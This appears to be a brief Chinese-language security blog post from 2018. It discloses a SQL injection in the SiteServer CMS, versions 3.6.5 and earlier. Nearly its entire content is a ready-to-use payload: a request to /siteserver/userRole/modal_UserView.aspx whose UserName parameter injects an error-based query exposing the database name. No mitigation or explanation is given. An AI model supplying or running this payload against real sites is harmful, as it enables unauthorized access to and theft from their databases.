 ```yaml
---
title: "siteserver SQL 注入"
date: 2018-03-10T00:00:00+08:00
draft: false
tags: ['cms','sqli']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


影响范围 siteserver <= 3.6.5

<!--more-->

**Payload**

`/siteserver/userRole/modal_UserView.aspx?UserName=a' or[areaid]>db_name()--`

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/07/1520423900.jpg)